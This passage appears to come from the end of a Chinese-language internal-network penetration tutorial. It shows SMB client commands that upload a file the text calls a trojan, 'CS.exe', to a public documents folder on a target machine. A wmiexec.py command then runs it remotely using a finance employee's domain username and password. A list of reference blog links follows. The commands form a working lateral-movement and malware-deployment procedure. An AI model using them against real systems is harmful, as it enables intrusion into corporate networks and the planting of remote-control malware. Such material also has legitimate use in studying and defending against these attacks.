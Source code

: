 ```cmd
举例子：
# use c$
# cd users/public/documents
# put D:/这是自己的本地电脑路径/CS.exe

```

然后再用 `wmiexec` 运行木马：

```cmd
python3 wmiexec.py "域名/财务的域用户名:财务用户的域密码@财务的机器ip" "cmd.exe /c c:/users/public/documents/CS.exe"
```



# 0x08 参考链接
- https://www.cnblogs.com/micr067/p/11923383.html
- https://teamssix.com/211027-163641.html#toc-heading-15
- https://blog.csdn.net/qq_36279445/article/details/110647055
- https://pingmaoer.github.io/2020/03/31/%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%BA%8C/


